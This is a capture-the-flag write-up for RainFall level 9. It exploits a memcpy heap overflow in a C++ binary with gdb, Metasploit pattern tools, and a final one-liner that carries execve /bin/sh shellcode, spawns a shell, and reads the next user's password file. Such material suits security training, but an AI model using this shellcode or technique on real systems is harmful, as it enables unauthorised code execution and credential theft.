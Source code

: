 # Level 9

We have a c++ program, which contains an N class, with a member function called `setAnnotation` that takes a string as an argument and calls memcpy.

in the main function just after the setAnnotation call, there is a call `edx` that we need to reach in order to overwrite it to execute our shellcode

```
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:   mov    DWORD PTR [esp],eax
   0x08048693 <+159>:   call   edx
   0x08048695 <+161>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.
```

just before the call `edx` we can see that the program puts the address of eax into edx then call the edx

First let's find the offset, let's generate a pattern

```
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Then let's pass this pattern to the program

```
level9@RainFall:~$ gdb -q level9 
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info reg
eax            0x41366441       1094083649
ecx            0x67413567       1732326759
edx            0x804a0d4        134521044
ebx            0x804a078        134520952
esp            0xbffff640       0xbffff640
ebp            0xbffff668       0xbffff668
esi            0x0      0
edi            0x0      0
eip            0x8048682        0x8048682 <main+142>
eflags         0x210287 [ CF PF SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) 
```

back to our machine let's find the offset

```
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
                                                                                                                                                             
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 0x41366441
[*] Exact match at offset 108
```

The offset is 108 to reach the eax address, let's now check the content of eax, i will use a simple payload with 100 A's


```(gdb) x/100x $eax
0x804a008:      0x08048848      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a058:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a068:      0x41414141      0x41414141      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
0x804a0e8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0f8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a108:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a118:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a128:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a138:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a148:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a158:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a168:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a178:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a188:      0x00000000      0x00000000      0x00000000      0x00000000
```

The string i passed started 4 bytes after the eax address, so the string is stored at $eax+4, since the eax is dereferenced twice, our payload should look like this

```
payload = EAX_ADDRESS + 4
payload += "\x90" * 4
payload = SHELLCODE
payload = "\x90" * (108 - len(payload))
payload += EAX_ADDRESS
```

the exploit is written in the [exploit.py](exploit.py) file

```python
level9@RainFall:~$ ./level9 $(python2 -c 'print "\x10\xa0\x04\x08" + "\x90" * 4 + "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80" + "\x90" * 56 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$
```






